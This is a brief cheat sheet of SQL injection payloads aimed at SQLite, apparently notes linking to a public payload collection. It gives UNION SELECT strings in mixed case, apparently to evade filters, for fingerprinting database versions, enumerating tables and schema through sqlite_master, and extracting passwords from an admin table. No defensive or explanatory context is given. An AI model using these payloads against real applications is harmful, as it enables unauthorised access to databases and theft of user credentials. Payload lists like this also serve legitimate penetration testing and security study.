 [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration)

UniOn SeLeCt @@version   
UniOn SeLeCt version()   
UniOn SeLeCt sqlite_version()  

# sqlite

**Get tables:**  
Union SELECt group_concat(tbl_name) FROM sqlite_master

**Table information:**  
UniOn SeLeCt group_concat(sql) FROM sqlite_master  
UniOn SeLeCt group_concat(password) FROM admintable  

# 
